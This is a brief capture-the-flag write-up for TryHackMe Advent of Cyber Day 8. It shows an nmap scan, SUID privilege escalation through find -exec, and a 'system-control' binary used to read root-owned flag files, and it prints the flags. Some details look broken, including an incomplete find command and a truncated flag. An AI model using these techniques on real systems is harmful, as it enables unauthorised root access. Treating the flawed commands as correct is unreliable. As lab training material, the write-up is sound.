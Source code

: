 [THM] Advent of Cyber, Day 8
=============================
### undermouse, 07.09.2020

# Enviroment
```bash
export IP=10.10.222.83
```

# #1 What port is SSH running on?

```bash
# Scanning all ports
nmap $IP -p-

```

```
65534
```


# #2 Find and run a file as igor. Read the file /home/igor/flag1.txt

```bash
find / -exec cat /home/igor/flag1.txt
```

```
THM{d3f0708bdd9accda7f937d013eaf2cd8}
```

# #3 Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

```bash
find / -user root -perm -4000 -exec ls -ldb {} 2>/dev/null \;
# Found system-control binary file.
system-control
```
Enter system command: `cat /root/flag2.txt`

```
THM{8c8211826239d849fa8d6df03749c3a2
```
	
